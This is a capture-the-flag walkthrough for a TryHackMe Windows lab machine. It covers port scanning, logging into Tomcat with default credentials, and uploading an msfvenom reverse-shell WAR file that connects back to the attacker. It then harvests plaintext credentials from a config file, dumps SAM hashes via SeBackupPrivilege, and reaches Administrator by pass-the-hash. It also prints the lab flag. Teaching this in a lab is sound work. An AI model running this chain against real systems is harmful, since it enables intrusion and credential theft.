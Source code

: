 # WRK.TRYHACKME.LOC

## Machine Information

Domain Name: tryhackme.loc

Machine name: WRK

## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 --open -oN port_scan.txt wrk.tryhackme.loc -Pn

Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 16:14 CEST
Nmap scan report for wrk.tryhackme.loc (10.200.150.20)
Host is up (0.049s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-08-09T14:17:29+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TRYHACKME
|   NetBIOS_Domain_Name: TRYHACKME
|   NetBIOS_Computer_Name: WRK
|   DNS_Domain_Name: tryhackme.loc
|   DNS_Computer_Name: WRK.tryhackme.loc
|   DNS_Tree_Name: tryhackme.loc
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-09T14:16:49+00:00
| ssl-cert: Subject: commonName=WRK.tryhackme.loc
| Not valid before: 2025-04-09T09:59:17
|_Not valid after:  2025-10-09T09:59:17
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp open  http          Apache Tomcat (language: en)
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.50
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (91%), Microsoft Windows 10 1903 - 21H1 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-08-09T14:16:51
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   48.98 ms 10.250.1.1
2   49.35 ms wrk.tryhackme.loc (10.200.150.20)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.06 seconds

```



## Ports Enumeration

### 8080 - Apache Tomcat

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

The version 8.5.50 doesn't seem vulnerable.

Try to authenticate into the page clicking in the "Manage App" button. And try with some possible default password of TomCat:&#x20;

```
Apache Tomcat Host Manager (web)	admin	admin
Apache Tomcat Host Manager (web)	ADMIN	ADMIN
Apache Tomcat Host Manager (web)	admin	<blank>
Apache Tomcat Host Manager (web)	admin	j5Brn9
Apache Tomcat Host Manager (web)	admin	tomcat
Apache Tomcat Host Manager (web)	cxsdk	kdsxc
Apache Tomcat Host Manager (web)	j2deployer	j2deployer
Apache Tomcat Host Manager (web)	ovwebusr	OvW*busr1
Apache Tomcat Host Manager (web)	QCC	QLogic66
Apache Tomcat Host Manager (web)	role1	role1
Apache Tomcat Host Manager (web)	role1	tomcat
Apache Tomcat Host Manager (web)	role	changethis
Apache Tomcat Host Manager (web)	root	root
Apache Tomcat Host Manager (web)	tomcat	changethis
Apache Tomcat Host Manager (web)	tomcat	s3cret
Apache Tomcat Host Manager (web)	tomcat	tomcat
Apache Tomcat Host Manager (web)	xampp	xampp
```

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

With the `tomcat : s3cret`  creds we are in.

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Craft WAR payload with msfvenom

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.250.1.6 lport=9009 -f war -o shell.war
```

And start a listener with netcat

```
nc -lvnp 9009
```

Upload the WAR payload and then open the application from the Management page

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

We dive into this page and a connection has been establish

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>







## Lateral Movement

### Credentials in Tomcat conf file

Checking in configuration file i found this interesting file with new credentials

```
more C:/tomcat/apache-tomcat-8.5.50/conf/tomcat-users.xml

<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users>
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
<!-- Note:  Keeping credentials as default. Migration to the AD user is not yet fully working. Will be fixed in the future
<user username="svc.callback" password="qvBVAj9avM3ykcbf9s" roles="manager-gui"/>
 -->
</tomcat-users>
```

New credentials: `svc.callback : qvBVAj9avM3ykcbf9s`&#x20;



### Access through WinRM

Try this credentials found with `evil-winrm` tool.

```bash
evil-winrm -i wrk.tryhackme.loc -u 'svc.callback' -p 'qvBVAj9avM3ykcbf9s'
```

This command allow us to access into the WRK machine as `svc.callback` user.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

### Windows Local Enumeration

With the follow command we can see all information about `svc.callback` user.

```powershell
whoami /all
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

From this information we can understand that the user has:

* **SeBackupPrivilege/SeRestorePrivilege**: this permisions allows an attacker to dump the all file in the system.
* is Group Owner of the local Administratos group
* SeImpersonatePrivilege: this permission allows an attacker to impersonate all authenticated user.
* Is Domain user. With this informations

```bash
User Name              SID
====================== ============================================
tryhackme\svc.callback S-1-5-21-1966530601-3185510712-10604624-3121
```



### Exploit SeBackupPrivilege

An attacker with this privilege can copy the SAM and SYSTEM file querying the registry and extract credentials from this files.

```powershell
cd C:\Temp

reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

{% code title="Evil-winrm shell" %}
```bash
download sam
download system
```
{% endcode %}

```bash
impacket-secretsdump -sam sam -system system LOCAL

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xfa0661c3eee8696eeb436f2bafa060e7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e75f25c6788a558e4f3f49714ed95e41:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:95f2822ae7e725c8e30b2b31f66c1b86:::
[*] Cleaning up... 
```

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



### Administrator access with Pass-the-Hash

An attacker with the Administrator NTLM could make access to the machine using the Pass-the-Hash technique.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>evil-winrm -i wrk.tryhackme.loc -u 'Administrator' -H 'e75f25c6788a558e4f3f49714ed95e41'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>





## Machine Flag

To demostrate that we have compromised this machine, get the machine's flag.

```
more C:\flag.txt

THM{97fcebcc-cc05-4212-bd05-73730eeee0ed}
```



